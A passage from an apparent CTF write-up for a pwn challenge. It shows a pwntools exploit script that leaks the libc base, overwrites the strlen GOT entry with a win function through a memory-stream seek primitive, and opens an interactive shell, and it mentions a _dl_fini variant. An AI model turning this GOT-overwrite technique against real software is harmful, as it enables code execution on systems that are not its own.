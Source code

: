 ```py
    break

p.recv(0x18)
libc.address = u64(p.recv(8)) - libc.symbols['_IO_2_1_stdout_']
strlen_got = libc.address + 0x219098
log.success(f"libc base @ {hex(libc.address)}")
log.info(hex(strlen_got))
binary_base = libc.address + 0x269000
g_buf = binary_base + 0x4060
win = binary_base + 0x1229 

seek(strlen_got - g_buf)
write(8, p64(win))

p.interactive()
```

I was surprised at that UPX virtualization can be abused for exploit and wondered other virtualization tool can be used like this.

- [itaybel](https://github.com/itaybel/Weekly-CTF/blob/main/BlackHatMEA/pwn/memstream.md) used `_dl_fini` logic (`call [rax + 0x3d88]`), it looks good too.
